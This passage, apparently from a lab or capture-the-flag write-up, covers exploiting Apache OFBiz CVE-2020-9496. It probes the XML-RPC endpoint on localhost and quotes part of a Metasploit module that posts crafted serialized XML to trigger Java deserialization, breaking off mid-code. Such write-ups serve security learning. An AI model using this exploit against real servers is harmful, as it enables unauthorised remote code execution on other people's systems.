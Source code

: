 Visiting `https://localhost:8443/webtools/control/xmlrpc` returns a
error:

![](/img/image-20210423081808874.png)

This is promising, as it shows the endpoint is there and that I didn't
get any permissions errors, just an error that I didn't submit the
proper request.

The blog post goes into really good detail of exactly where the
vulnerability it, and then concludes with:

> To trigger the vulnerability, an attacker would send an HTTP request
> containing a crafted serialized object in an XML format to the
> affected target. The vulnerability is triggered when the server
> deserializes the XML data.

### Exploit

#### Find POC

A search for "CVE-2020-9496 POC" returns [this Packetstrom
post](https://packetstormsecurity.com/files/161769/Apache-OFBiz-XML-RPC-Java-Deserialization.md)
for a Metasploit module exploiting this vulnerability. The important
part is the `send_request_xmlrpc` function:



      def send_request_xmlrpc(data)
        # http://xmlrpc.com/
        # https://ws.apache.org/xmlrpc/
        send_request_cgi(
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, '/webtools/control/xmlrpc'),
          'ctype' => 'text/xml',
          'data' => <<~XML
            <?xml version="1.0"?>
            <methodCall>
              <methodName>#{rand_text_alphanumeric(8..42)}</methodName>